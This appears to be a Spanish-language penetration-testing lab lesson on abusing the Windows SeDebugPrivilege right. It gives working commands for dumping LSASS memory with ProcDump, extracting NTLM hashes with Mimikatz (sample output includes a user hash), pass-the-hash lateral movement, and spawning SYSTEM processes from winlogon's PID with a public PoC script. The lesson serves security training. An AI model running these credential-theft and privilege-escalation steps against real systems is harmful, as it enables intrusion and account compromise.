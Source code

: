 Para ejecutar una aplicación o servicio en particular, o para ayudar en la resolución de problemas, a un usuario se le podría asignar el privilegio [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) en lugar de agregar la cuenta al grupo de administradores. Este privilegio puede asignarse a través de políticas de grupo locales o de dominio, en la ruta **Computer Settings > Windows Settings > Security Settings**. Por defecto, solo los administradores tienen este privilegio, ya que puede utilizarse para capturar información sensible de la memoria del sistema o para acceder/modificar estructuras del kernel y de aplicaciones. Este derecho puede asignarse a desarrolladores que necesiten depurar nuevos componentes del sistema como parte de su trabajo diario. Este derecho de usuario debe otorgarse con moderación, ya que cualquier cuenta que lo posea tendrá acceso a componentes críticos del sistema operativo.

Durante una prueba de penetración interna, a menudo es útil utilizar sitios web como LinkedIn para recopilar información sobre posibles usuarios a los que apuntar. Supongamos que estamos, por ejemplo, recuperando muchos hashes de contraseña NTLMv2 utilizando `Responder` o `Inveigh`. En ese caso, es posible que queramos enfocar nuestros esfuerzos de crackeo de hashes en posibles cuentas de alto valor, como desarrolladores que tienen más probabilidades de tener este tipo de privilegios asignados a sus cuentas. Un usuario puede no ser un administrador local en un host pero tener derechos que no podemos enumerar remotamente usando una herramienta como BloodHound. Esto valdría la pena comprobar en un entorno donde obtenemos credenciales para varios usuarios y tenemos acceso RDP a uno o más hosts pero sin privilegios adicionales.

![image](https://academy.hackthebox.com/storage/modules/67/debug.png)

Después de iniciar sesión como un usuario asignado al derecho `Debug programs` y abrir un shell elevado, vemos que `SeDebugPrivilege` está listado.

```r
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

Podemos usar [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) de la suite [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) para aprovechar este privilegio y volcar la memoria del proceso. Un buen candidato es el proceso Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)), que almacena credenciales de usuario después de que un usuario inicia sesión en un sistema.

```r
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Esto tiene éxito, y podemos cargar esto en `Mimikatz` usando el comando `sekurlsa::minidump`. Después de emitir los comandos `sekurlsa::logonPasswords`, obtenemos el hash NTLM de la cuenta de administrador local iniciada localmente. Podemos usar esto para realizar un ataque de pass-the-hash para movernos lateralmente si se usa la misma contraseña de administrador local en uno o varios sistemas adicionales (común en grandes organizaciones).

Nota: Siempre es una buena idea escribir "log" antes de ejecutar cualquier comando en "Mimikatz", de esta manera todo el output de comando se colocará en un archivo ".txt". Esto es especialmente útil cuando se vuelcan credenciales de un servidor que puede tener muchos conjuntos de credenciales en memoria.

```r
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>

```

Supongamos que no podemos cargar herramientas en el objetivo por cualquier motivo, pero tenemos acceso RDP. En ese caso, podemos tomar un volcado manual de memoria del proceso `LSASS` a través del Administrador de tareas navegando a la pestaña `Details`, eligiendo el proceso `LSASS` y seleccionando `Create dump file`. Después de descargar este archivo de vuelta a nuestro sistema de ataque, podemos procesarlo usando Mimikatz de la misma manera que en el ejemplo anterior.

![image](https://academy.hackthebox.com/storage/modules/67/WPE_taskmgr_lsass.png)

---

## Remote Code Execution as SYSTEM

También podemos aprovechar `SeDebugPrivilege` para [RCE](https://decoder.cloud/2018/02/02/getting-system/). Utilizando esta técnica, podemos elevar nuestros privilegios a SYSTEM lanzando un [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) y usando los derechos elevados otorgados a nuestra cuenta a través de `SeDebugPrivilege` para alterar el comportamiento normal del sistema para heredar el token de un [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) e impersonarlo. Si apuntamos a un proceso padre que se ejecuta como SYSTEM (especificando el ID del proceso (o PID) del proceso o programa en ejecución objetivo), entonces podemos elevar nuestros derechos rápidamente. Veamos esto en acción.

Primero, transfiere este [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) al sistema objetivo. Luego, simplemente cargamos el script y lo ejecutamos con la siguiente sintaxis `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`. Tenga en cuenta que debemos agregar un tercer argumento en blanco `""` al final para que el PoC funcione correctamente.

El script PoC ha recibido una actualización. Por favor, visite su repositorio en GitHub y revise su uso. https://github.com/decoder-it/psgetsystem

Primero, abre una consola de PowerShell elevada (clic derecho, ejecutar como administrador y escribe las credenciales para el usuario `jordan`). Luego, escribe `tasklist` para obtener una lista de los procesos en ejecución y los PIDs correspondientes.

```r
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Aquí podemos apuntar a `winlogon.exe` que se ejecuta bajo el PID 612, que sabemos que se ejecuta como SYSTEM en los hosts de Windows.

![image](https://academy.hackthebox.com/storage/modules/67/psgetsys_winlogon.png)

También podríamos usar el cmdlet [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) para obtener el PID de un proceso bien conocido que se ejecuta como SYSTEM (como LSASS) y pasar el PID directamente al script, reduciendo el número de pasos requeridos.

![image](https://academy.hackthebox.com/storage/modules/67/psgetsys_lsass.png)

Existen otras herramientas como [esta](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) para obtener un shell SYSTEM cuando tenemos `SeDebugPrivilege`. A menudo no tendremos acceso RDP a un host, por lo que tendremos que modificar nuestros PoCs para devolver una reverse shell a nuestro host de ataque como SYSTEM u otro comando, como agregar un usuario administrador. Juega con estos PoCs y mira de qué otras maneras puedes obtener acceso a SYSTEM, especialmente si no tienes una sesión completamente interactiva, como cuando logras inyección de comandos o tienes una web shell o conexión de reverse shell como el usuario con `SeDebugPrivilege`. Ten en cuenta estos ejemplos en caso de que alguna vez te encuentres en una situación en la que volcar LSASS no resulte en credenciales útiles (aunque podemos obtener acceso a SYSTEM solo con el hash NTLM de la máquina, pero eso está fuera del alcance de este módulo) y un shell o RCE como SYSTEM sería beneficioso.